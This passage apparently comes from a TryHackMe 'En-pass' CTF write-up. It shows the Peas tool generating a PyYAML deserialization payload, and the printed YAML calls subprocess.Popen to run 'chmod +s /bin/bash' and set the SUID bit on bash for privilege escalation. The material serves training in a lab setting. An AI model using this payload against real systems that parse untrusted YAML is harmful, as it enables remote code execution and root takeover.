 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/En-pass/images/Pasted%20image%2020230101013732.png)

**Let's use [Peas](https://github.com/j0lt-github/python-deserialization-attack-payload-generator) to generate our payload:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/En-pass]
└─# python3 /opt/python-deserialization-attack-payload-generator/peas.py   
Enter RCE command :chmod +s /bin/bash
Enter operating system of target [linux/windows] . Default is linux :linux
Want to base64 encode payload ? [N/y] :N
Enter File location and name to save :./file
Select Module (Pickle, PyYAML, jsonpickle, ruamel.yaml, All) :PyYAML
Done Saving file !!!!
                                                                                                           
┌──(root🌸siunam)-[~/ctf/thm/ctf/En-pass]
└─# cat file_yaml
!!python/object/apply:subprocess.Popen
- !!python/tuple
  - chmod
  - +s
  - /bin/bash
```
